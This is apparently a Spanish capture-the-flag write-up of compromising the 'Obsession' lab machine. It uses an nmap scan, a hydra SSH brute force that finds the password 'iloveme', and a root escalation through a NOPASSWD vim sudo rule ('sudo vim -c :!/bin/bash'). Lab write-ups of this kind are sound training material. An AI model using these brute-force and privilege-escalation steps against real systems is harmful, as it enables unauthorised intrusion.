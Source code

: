 # Explotación de la máquina Obsession

## Información general
- **Nombre de la máquina**: Obsession
- **Dirección IP**: 172.17.0.2
- **Puntos de entrada**: FTP (Puerto 21), SSH (Puerto 22), HTTP (Puerto 80)

## Reconocimiento
Realizamos un escaneo de puertos, servicios y versiones con el siguiente comando.

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-06 13:22 -05
Initiating ARP Ping Scan at 13:22
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 13:22, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 13:22
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 21/tcp on 172.17.0.2
Completed SYN Stealth Scan at 13:22, 0.76s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000040s latency).
Scanned at 2024-12-06 13:22:30 -05 for 1s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
Los puertos 21, 22 y 80 estan abierto asi que procedemos a revisar el codigo fuente de la web.
Encontramos que tiene una linea de comentarios la cual nos indica lo siguiente 

```bash
<! -- Utilizando el mismo usuario para todos mis servicios, podré recordarlo fácilmente -->
```
Con la informacion que la misma web nos indica y con un poco de logica el usuario deberia de ser ```russoski```

Asi que procedo a hacer un ataque de fuerza bruta con hydra

```bash
hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-06 13:28:14
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: russoski   password: iloveme
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-12-06 13:28:49
```

Rapidamente nos encuentra un password en este caso ```iloveme```

Procedemos a conectarnos mediante el servicio ssh:

```bash
sudo ssh russoski@172.17.0.2                                          
russoski@172.17.0.2's password: 
Welcome to Ubuntu 24.04 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Jun 18 04:38:10 2024 from 172.17.0.1
russoski@b47b308f2dfe:~$ whoami
russoski
```

Y wala! estamos conectados como russoski. 
El siguiente paso seria intentar escalar privilegios como root para esto usamos el comando ``` sudo -l ```

##Escala de privilegios

```bash
sudo -l
Matching Defaults entries for russoski on b47b308f2dfe:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User russoski may run the following commands on b47b308f2dfe:
    (root) NOPASSWD: /usr/bin/vim

```
Nos indica que hay permisos incorrectos y a la vez nos muestra que podriamos escalar privilegios con vim como no recuerdo como usamos searchbins: 

```bash
sudo vim -c ':!/bin/bash'

root@b47b308f2dfe:/home/russoski# whoami
root

```
Ya somos root!!
